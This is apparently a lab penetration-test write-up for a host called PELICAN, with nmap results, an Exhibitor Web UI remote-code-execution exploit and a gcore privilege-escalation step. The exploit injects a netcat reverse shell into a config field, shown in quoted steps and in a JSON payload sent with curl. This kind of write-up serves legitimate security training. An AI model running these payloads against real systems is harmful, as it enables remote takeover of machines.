






_____

> [!info]
> IP=192.168.166.98

# Nmap 
| PORT    | STATE | SERVICE          |
|---------|-------|------------------|
| 22/tcp  | open  | ssh              |
| 139/tcp | open  | netbios-ssn      |
| 445/tcp | open  | microsoft-ds     |
| 631/tcp | open  | ipp              |
| 2181/tcp| open  | eforward         |
| 2222/tcp| open  | EtherNetIP-1     |
| 8080/tcp| open  | http-proxy       |
| 8081/tcp| open  | blackice-icecap  |


```python
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.190.98:8080/exhibitor/v1/ui/index.html
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -4h19m49s, deviation: 2h53m12s, median: -5h59m50s
| smb2-time:
|   date: 2024-02-02T15:47:19
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-02-02T10:47:19-05:00
```

## 139, 445 - SMB


## 631 - CUPS


## 8080 - http



## 8081 - Exhibitor for ZooKeeper



### Exhibitor Web UI 1.7.1 - Remote Code Execution
https://www.exploit-db.com/exploits/48654

```txt
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
```


```bash
curl -X POST -d @data.json http://192.168.166.98:8080/exhibitor/v1/config/set
```

```json
{
  "zookeeperInstallDirectory": "/opt/zookeeper",
  "zookeeperDataDirectory": "/opt/zookeeper/snapshots",
  "zookeeperLogDirectory": "/opt/zookeeper/transactions",
  "logIndexDirectory": "/opt/zookeeper/transactions",
  "autoManageInstancesSettlingPeriodMs": "0",
  "autoManageInstancesFixedEnsembleSize": "0",
  "autoManageInstancesApplyAllAtOnce": "1",
  "observerThreshold": "0",
  "serversSpec": "1:exhibitor-demo",
  "javaEnvironment": "$(nc -e /bin/sh 192.168.45.182 4444 &)",
  "log4jProperties": "",
  "clientPort": "2181",
  "connectPort": "2888",
  "electionPort": "3888",
  "checkMs": "30000",
  "cleanupPeriodMs": "300000",
  "cleanupMaxFiles": "20",
  "backupPeriodMs": "600000",
  "backupMaxStoreMs": "21600000",
  "autoManageInstances": "1",
  "zooCfgExtra": {
    "tickTime": "2000",
    "initLimit": "10",
    "syncLimit": "5",
    "quorumListenOnAllIPs": "true"
  },
  "backupExtra": {
    "directory": ""
  },
  "serverId": 1
}
```


# PrivEsc
```bash
sudo gcore $PID
```




```bash
sudo gcore 497
```


